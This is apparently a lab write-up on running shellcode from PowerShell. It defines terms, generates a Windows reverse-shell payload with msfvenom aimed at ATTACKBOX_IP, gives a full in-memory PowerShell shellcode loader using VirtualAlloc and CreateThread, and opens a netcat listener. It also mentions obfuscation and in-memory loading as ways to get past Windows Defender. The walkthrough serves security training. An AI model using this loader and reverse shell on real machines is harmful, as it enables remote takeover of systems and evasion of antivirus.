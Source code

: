 **Terminology**

- **Shellcode**
    - A piece of code usually used by malicioius actors during exploits to inject commands into a vulnerable system, often leading to executing arbitrary commands or giving attackers control over a compromised machine.
    - Typically written in assembly language and delivered through various techniques, depending on the exploited vulnerability
- **Powershell**
    - Scripting language and command-line shell built into Windows for task automation and configuration management.
    - Allows users to interact with system components and is widely used by administrators for legitimate purposes
    - Attackers use PowerShell as a post-exploitation tool because of its deep access to system resources and ability to run scripts directly in memory, avoiding disk-based detection mechanisms
- **Windows Defender**
    - A built-in security feature that detects and prevents malicious scripts, including PowerShell-based attacks by scanning code at runtime.
    - Common bypass methods - obfuscating scriipts to disguise malicious content, reflective injection where malicious code is loaded directly into memory, avoiding detection by signature-based defences
- **Windows API**
    - Windows Application Programming Interface allows programs to interact with the underlying operating system, giving access to essential system-level functions such as memory management, file operations and networking
    - Serves as a bridge between application and operating system, enable efficient resource handling
    - Crucial as many exploitation techniques and malware rely on it to manipulate processes, allocate memory and execute shellcodes
    - Common Windows API functions frequently used by malicious actors (`VirtualAlloc`, `CreateThread`, `WaitFroSingleObject`)
- **Accessing Windows API through PowerShell Reflection**
    - Windows API via PowerShell Reflection is an advanced technique that enables dynamic interaction with the Windows API from PowerShell.
    - Instead of relying on precompiled binaries, PowerShell Reflection allows attackers to call Windows API functions directly at runtime, allowing them to manipulate low-level system processes
    - A primary  tool for bypassing security mechanisms, interacting with the operating system and executing code stealthily
- **Reverse shell**
    - A type of connection in which the target initiates a connection back to your attacking machine

**Generating Shellcode (with msfvenom)**

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell`

![08SS01](https://github.com/user-attachments/assets/452c07e6-b08c-4c9e-923a-ba4a0bca8cd9)

`-p` flag tells `msfvenom` the type of payload. `windows/x64/shell_reverse_tcp` specifies the reverse shell payload for a Windows machine

`Lhost` listener’s IP address

`Lport` listener’s port

`-f powershell` specifies the format for the output.

Actual shellcode in the output is the hex-encoded byte array, which starts with `0xfc, 0xe8, 0x82` etc. The hexadecimal numbers represent the instructions set on the target machine and are just for human  to read.

PowerShell code to call a few Windows APIs via C# code

```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Explanation of code

Script starts by defining C# classes, using the `DllImport` attribute to load specific functions from the `kernel32` DLL, which is part of the Windows API

- `VirtualAlloc` - Function that allocates memory in the process’s address space, commonly used in scenarios like this to prepare memory for storing and executing shellcode
- `CreateThread` - Function creates a new thread in the process. The thread will execute the shellcode that has been loaded into memory
- `WaitForSingleObject` - Function pauses execution until a specific thread finishes its task. In this case, ensures that shellcode has completed execution

These classes are then added to PowerShell using the `Add-Type` command, allowing PS to use these functions

**Storing Shellcode in a Byte Array**

The script stores the shellcode in the `$buf` variable, a byte array. Replace the `SHELLCODE_PLACEHOLDER` with the real shellcode that is represented as a series of hexadecimal values. In this case, generated through `msfvenom`. Hex values are instructions that will be executed when the shellcode runs.

`[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)`

**Allocating Memory for the Shellcode**

`VirtualAlloc` function allocates a block of memory where the shellcode will be stored, using the following arguments:

- `0`  for memory address - Windows will decide where to allocate the memory
- `$size` for size of memory block - determined by the length of shellcode
- `0x3000` for the allocation type - tells Windows to reserve and commit the memory
- `0x40` for memory protection - memory is readable and executable (necessary for executing shellcode)

`[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length`

After memory is allocated, the `Marshal.Copy` function copies the shellcode from the `$buf` array into the allocated memory address (`$addr`), preparing it for execution

`$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)`

**Executing Shellcode and Waiting for Completion**

Once shellcode is stored in memory, the script calls the `CreateThread` function to execute the shellcode by creating a new thread. This thread is instructed to start execution from the memory address where the shellcode is located (`$addr`). 

`[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")`

Then it uses `WaitForSingleObject` function, ensuring it waits for the shellcode execution to finish before continuing.

Enter the codes into PowerShell

![08SS02](https://github.com/user-attachments/assets/727bf10e-f043-467c-ad91-fddfb4a736ef)

Listening on another machine

`nc -nlvp 1111`

![08SS03](https://github.com/user-attachments/assets/1a433b4e-a2e1-45f9-967c-327915982342)
